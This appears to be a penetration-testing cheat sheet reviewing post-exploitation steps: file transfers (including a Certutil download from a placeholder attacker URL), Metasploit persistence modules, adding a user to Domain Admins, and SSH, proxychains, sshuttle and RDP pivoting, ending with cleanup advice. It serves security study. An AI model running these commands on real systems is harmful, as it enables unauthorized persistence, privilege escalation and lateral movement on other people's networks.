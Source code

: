 ## Post Exploitation - Review

### 🚩 File transfers
* python -m SimpleHTTPServer 80
* python -m pyftpdlib 21 (attacker ip)
*   ftp attackerip (windows machines)
* Certutil.exe -urlcache -f http://ip.address/bad.txt output.txt
* wget (linux machines)
* metasploit

---

### 🚩 Maintaining access

#### Persistence Scripts (Metasploit)
* run persistence -h
* exploit/windows/local/persistence
* exploit/windows/local/registry_persistence

#### Scheduled Tasks
* run scheduleme
* run schtaskabuse

#### Add a user
* net user FakeUser Password1 /add
* net group "Domain Admins" hawkeye /ADD /DOMAIN 

---

### 🚩 Pivoting - Using a compromised device as a condui to reach new locations. For situations when a secondary device is only reachable through a compromised device, or for more covert activities (more in the realms of Red Teaming).

#### 🔴 Proxychains: Bind port, Proxychain, Proxy  
Scenario:
1. device 1 has access to device 2 which is unreachable from our attacker machine device 0  
2. proxychain and bind port is setup on device 0  
3. proxy tunnel on devive 1  
4. target is device 2

check our proxychain config file and edit the bind port if required  

         cat /etc/proxychains4.conf

now we ssh into device 1, -f backgrounds the ssh, -N do not execute remote commands only port forward, -D to bind on port, -i pivot the ssh private key file combined with the username.

         ssh -f -N -D 9050 -i pivot root@10.10.155.5

now we can run commands on device 2

         proxychains nmap -p88 10.10.10.255 (syn scan)
         proxychains nmap -p88 10.10.10.255 sT (tcp scan, could be better)

#### 🔴 Xfreerdp: RDP pivot into a device by placing proxychains infront of the normal syntax
   
      proxychains xfreerdp /u:administrator /p:'Password1' /v:10.10.10.225

#### 🔴 Sshuttle

      sshuttle -r user@ip.of.device1 ip.of.target/24 --ssh-cmd "ssh -i pivot"
      
keeping the sshuttle terminal live, move to new terminal. Aslong as the sshuttle terminal is up we can execute commands in the new terminal without having to type 'proxychains' infront of every command if using proxychain.

#### 🔴 Chisel
another tool used for pivoting and tunneling. 

---

### Cleaning up  
Make sure the system/network is what it was prior to engagement.
* remove executables, scripts and files
* remove malware, rootkits, and added users accounts
* set settings back to original configurations

